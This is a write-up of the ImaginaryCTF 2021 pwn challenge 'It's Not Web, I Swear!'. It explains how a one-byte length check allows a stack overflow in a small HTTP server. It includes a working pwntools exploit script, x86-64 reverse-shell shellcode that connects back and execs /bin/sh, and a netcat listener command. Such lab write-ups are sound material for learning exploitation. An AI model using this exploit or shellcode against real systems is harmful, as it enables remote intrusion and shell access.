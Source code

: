 # ImaginaryCTF 2021: It's Not Web, I Swear!

![date](https://img.shields.io/badge/date-27.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![pwn category](https://img.shields.io/badge/category-pwn-lightgrey.svg) ![score](https://img.shields.io/badge/score-450-blue.svg) ![solves](https://img.shields.io/badge/solves-17-brightgreen.svg)

## Description

In the spirit of DEFCON, I present you with this challenge that is not a web challenge! Go forth and pwn this notweb challenge

## Attached files
- [server](https://imaginaryctf.org/r/0AEB-server)

## Summary
To acquire the flag we had to find buffer overflow to override return pointer of a function to jump into our shellcode. However when our code is being executed we would already have been disconnected from the server, therefor we needed to reestablish the connection.

## Flag
``` ictf{all_pwn_and_no_web_makes_elliot_a_dull_boy} ```

## Detailed solution
After calling using **checksec** on challenge's binary we discover that there are no security features added by compiler, it even has executable stack
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
We can now look how the server works internally, in the **main** function, just after port passed as program argument gets verified, **startServer** is called. Then the program falls into **accept** loop. For each client connected to the server a new process is created to handle the communication.

In **respond** function firstly program checks if the request starts with ```GET /```
```
   0x4011b8 <respond+235>    mov    rsi, rdx
   0x4011bb <respond+238>    mov    rdi, rax
 ► 0x4011be <respond+241>    call   strstr@plt <strstr@plt>
        haystack: 0x604700 ◂— 'GET / HTTP/1.1\n'
        needle: 0x4017f8 ◂— 0x2f20544547 /* 'GET /' */
   0x4011c3 <respond+246>    cmp    qword ptr [rbp - 0x40], rax
   0x4011c7 <respond+250>    jne    respond+455 <respond+455>
```
our request has to pass that test in order to get to vulnerable path checking.

Then the program searches for ```<space>HTTP``` character sequence and number of characters between the end of ```GET /``` and the start of ```<space>HTTP``` is calculated. That number will be referred to as path length.

It is important to note that path length is stored as 32-bit variable
```
   0x401253 <respond+390>    sub    rdx, rax
   0x401256 <respond+393>    mov    rax, rdx
   0x401259 <respond+396>    mov    dword ptr [rbp - 0x54], eax
   0x40125c <respond+399>    mov    eax, dword ptr [rbp - 0x54]
```
Just after being calculated it is passed to **check_len** function, which returns **true** if length is below 100 and **false** if it is longer ... or ... wait!

```
   0x401067 <check_len+4>     mov    eax, edi
   0x401069 <check_len+6>     mov    byte ptr [rbp - 4], al
   0x40106c <check_len+9>     cmp    byte ptr [rbp - 4], 0x63
   0x401070 <check_len+13>    setbe  al
   0x401073 <check_len+16>    movzx  eax, al
```
it only checks if the least significant bit has value less than 100 ! They have even put it in another function to make it harder to spot!

When the function returns true, our path is copied onto the stack using full 32-bit path length. 
```
   0x40126d <respond+416>    mov    eax, dword ptr [rbp - 0x54]
   0x401270 <respond+419>    movsxd rdx, eax
   0x401273 <respond+422>    mov    rcx, qword ptr [rbp - 0x50]
   0x401277 <respond+426>    lea    rax, [rbp - 0xe0]
   0x40127e <respond+433>    mov    rsi, rcx
   0x401281 <respond+436>    mov    rdi, rax
   0x401284 <respond+439>    call   memcpy@plt <memcpy@plt>
```
There are ``0xe0`` bytes to get to the end of stack frame, then we have **main**'s function ``rbp`` which we can safely corrupt, and then there is return pointer.

However we have to check if there are any local variables that after getting corrupted would result in process crash. 
```
   0x401510 <respond+1091>    mov    rax, qword ptr [rbp - 0x40]
   0x401514 <respond+1095>    mov    rdi, rax
   0x401517 <respond+1098>    call   free@plt <free@plt>
```

There is only one such variable which is a pointer to the buffer that our message was **recv**'ed to. It is getting **free**'d just before return instruction, and never used elsewhere, so we can just zero it out.

We will create simple python script to help us sending data to the server
```
#!/bin/python

from pwn import *

import os

if len(sys.argv) > 1:
    io = remote('localhost', int(sys.argv[1]))
else:
    io = remote('not-web.chal.imaginaryctf.org', 42042)

padding_len = 0x100 - (240 & 0xff)

io.sendline(
        b'GET /' +
        b'A' * 160 +
        b'\x00\x00\x00\x00\x00\x00\x00\x00' +
        b'A' * 0x40 +
        b'BBBBBBBB' +
        b'D' * padding_len +
        b' HTTP'
)
```
We also need to add some padding to our path to make the lower bits of path length be 0

As expected the program crashes when trying to return to address ``0x4242...``
``` 
► 0x40158c <respond+1215>    ret    <0x4242424242424242>
```

Now we need to find address to return to, conveniently author of the challenge kindly left us useful ROP gadget at the end of **startServer** function
```
   0x40105e <startServer+375>    jmp    rsp
```
Stack pointer would now point right after the return pointer which in last example we have set to B's after modifying our script we can just put our shellcode there.
```
...
JMP_RSP = 0x40105e

os.system('nasm shellcode.asm')

shellcode = open('shellcode', 'rb').read()
payload_len = 240 + len(shellcode)
padding_len = 0x100 - (payload_len & 0xff)
...
        b'A' * 0x40 +
        p64(JMP_RSP) +
        shellcode +
        b'D' * padding_len +
...
```

Unfortunately at this point the server has already shut the connection with us down
```
   0x40152b <respond+1118>    mov    esi, 1
   0x401530 <respond+1123>    mov    edi, 1
   0x401535 <respond+1128>    call   shutdown@plt <shutdown@plt>
   0x40153a <respond+1133>    mov    edi, 1
   0x40153f <respond+1138>    call   close@plt <close@plt>
```
Therefor we have to reestablish connection to us in our shellcode:
```
[bits 64]
start:
	mov rax, 41		; socket
	mov rdi, 2		; AF_INET
	mov rsi, 1		; SOCK_STREAM
	xor rdx, rdx
	syscall

	mov r14, rax		; we need to save socket fd

	mov rdi, rax
	mov rax, 42		; connect
	lea rsi, [rel server]
	mov rdx, 16
	syscall

				; using dup2 syscalls we can redirect
				; all standard streams to our socket fd
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 0
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 1
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 2
	syscall

	mov rax, 59		; execve
	lea rdi, [rel sh]	; now we can execute bash
	lea rsi, [rel zero]
	lea rdx, [rel zero]
	syscall

zero:	dq 0
sh:	db "/bin/sh", 0
server:	db 0x02,0x00,0x05,0x39, 127,   0,   0,   1,0xa0,0x50,0x55,0x55,0x55,0x55,0x00,0x00
;                    PORT      IP ADDRESS
```

Note that port ( 1337 in this example ) needs to be in **big endian** order.
Now we can just start netcat server on specified port and check the result locally.
```
nc -lp 1337
```
After our shellcode gets executed we will have shell in our netcat window.
The only thing that is left to do is to put public ip into our code, make sure that the port is correctly forwarded, and send our exploit to challenge's server.
You can then use ls and cat to acquire the flag.
